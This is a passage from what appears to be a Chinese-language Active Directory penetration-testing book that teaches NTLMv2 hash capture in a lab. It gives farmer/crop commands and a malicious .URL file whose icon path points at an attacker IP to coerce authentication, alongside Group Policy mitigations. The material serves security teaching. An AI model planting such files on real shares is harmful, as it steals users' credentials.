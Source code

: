 图 4.4 – 捕获 NTLMv2 响应

为了模拟这一活动，实验室作者在**winterfell**上创建了一个计划任务，用户**eddard.stark**尝试通过带有拼写错误的 DNS 名称通过 SMB 连接到服务器。由于 DNS 服务器无法解析该名称，广播协议被触发，我们捕获到了 NTLMv2 响应。

为了减少这种捕获的可能性，理想情况下，我们需要停止使用 NTLM。如果无法做到这一点（这通常是情况），应在网络层面应用强密码策略并严格加固。其思路是禁用所有不必要的多播协议和 NTLMv1（在组策略中，将 **LAN Manager** 设置为 **仅发送 NTLMv2 响应。拒绝 LM 和 NTLM**）。我们将在下一章提供有关减轻中继攻击的建议。

但是，如果这些网络协议被禁用且 MITM 实际上不可行怎么办？我们可以通过几种方式强制客户端进行身份验证。最近，*MDSec*[9] 发布了一些有趣的研究。我们可以将某些类型的文件放置在可写共享文件夹中，Windows 会自动进行身份验证并将 NTLM 响应发送到远程机器：**SCF**、**URL**、**library-ms** 和 **searchConnector-ms**。一个重要的说明是，攻击者的机器应该位于本地内联网区域内，这意味着可以通过 UNC 路径建立网络连接。该研究的思路是使用启用 WebDAV 的 HTTP 服务器来收集哈希，这被称为 **farmer**，而用于创建文件的工具被称为 **crop**。以下两个命令将捕获哈希：

```
farmer.exe 8888 120
crop.exe \\castelblack\public legit.url \\winterfell@8888\legit.ico
```

我们还可以手动创建一个 .URL 文件。其原理是我们将一个环境变量放入文件中，这样受害者机器上的资源管理器在查看文件夹时，会在发送请求之前主动查找该变量，从而有效地连接到我们的文件共享，无需任何用户交互。这种行为使我们能够通过 Responder 捕获 NTLMv2 响应。该 .URL 文件的内容可能如下所示：

```
[InternetShortcut]
URL=any
WorkingDirectory=any
IconFile=\\192.168.56.100\%USERNAME%.icon
IconIndex=1
```

如下所示，**jon.snow** 打开一个公开共享的文件夹时，在 Responder 中可以看到结果：

![](img/B18964_04_05.jpg)

图 4.5 – 打开公共共享文件夹并使用 .URL 文件后捕获的 NTLMv2 响应

注意

盗取 NTLMv2 响应的其他有趣位置在 *Osanda* *Malith* 的博文中有详细描述：[`osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/`](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)。

为了防止之前提到的文件类型强制身份验证，我们需要通过组策略设置关闭网络文件夹的缩略图显示。接下来，我们将介绍另一种强大的技术，用于捕获哈希，如果之前的所有尝试都未成功的话。

# 强制身份验证
